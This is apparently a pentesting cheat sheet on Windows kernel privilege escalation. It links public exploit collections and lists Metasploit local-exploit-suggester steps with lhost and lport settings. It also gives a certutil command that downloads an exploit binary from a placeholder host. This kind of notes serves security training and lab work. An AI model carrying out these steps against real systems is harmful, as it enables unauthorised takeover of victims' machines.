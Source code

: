 # Kernel exploits

* Windows Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits

* Kitrap0d Info: https://seclists.org/fulldisclosure/2010/Jan/341

* MS10-059: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

## Metasploit
* run post/multi/recon/local_exploit_suggester
* use THE_EXPLOIT_YOU_WANT
* set session 9
* set lhost tun0
* set lport PORT 
* run 

## Manual Exploitation
* Run any tool suggester example: ./windows_exploit_suggester.py
* Once you get which exploit to use search how to use it like MS010-exploit PoC
* Transfer the file: certutil -urlcache -f http://X.X.X.X/exploit.exe exploit.exe 

